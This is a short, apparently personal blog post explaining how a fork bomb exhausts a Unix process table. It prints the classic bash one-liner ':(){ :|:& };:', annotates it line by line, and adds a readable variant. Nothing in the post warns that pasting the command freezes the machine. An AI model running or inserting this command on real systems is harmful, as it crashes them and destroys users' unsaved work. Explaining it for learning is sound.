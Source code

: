 +++
title = "Fork bomb"
categories = ["learning"]
date = "2010-05-22"
updated = 2010-05-22T12:20:25Z
author = "Satya Pavan"
description = "This is a full size nuclear reactor"
#featured = "ugh_1024x.jpg"
#featuredalt = "learning"
featuredpath = ""
linktitle = ""
type = "post"
+++


A fork bomb works by creating a large number of processes very quickly in order to saturate the available space in the list of processes kept by the computer’s operating system. If the process table becomes saturated, no new programs may start until another process terminates. Even if that happens, it is not likely that a useful program may be started since the instances of the bomb program will each attempt to take any newly-available slot themselves.

In addition to using space in the process table, each child process of a fork bomb uses further processor-time and memory. As a result of this, the system and existing programs slow down and become much more unresponsive and difficult or even impossible to use.
 
The following code provides arguably one of the most elegant examples of a fork bomb. The user executes the fork bomb by pasting the following 11 characters into a UNIX shell such as bash or zsh. 


```
:(){ :|:& };:
```

Understanding the above:

```
:()      # define ‘:’ – whenever we say ‘:‘, do this:
{        # beginning of what to do when we say ‘:’
    :    # load another copy of the ‘:’ function into memory…
    |    # …and pipe its output to…
    :    # …another copy of ‘:’ function, which has to be loaded into memory
         # (therefore, ‘:|:’ simply gets two copies of ‘:’ loaded whenever ‘:’ is called)
    &    # disown the functions – if the first ‘:’ is killed,
         #     all of the functions that it has started should NOT be auto-killed
}        # end of what to do when we say ‘:’
;        # Having defined ‘:‘, we should now…
:        # …call ‘:‘, initiating a chain-reaction: each ‘:’ will start two more.
```

To keep it simple,
```
forkbomb(){ forkbomb|forkbomb & } ; forkbomb
```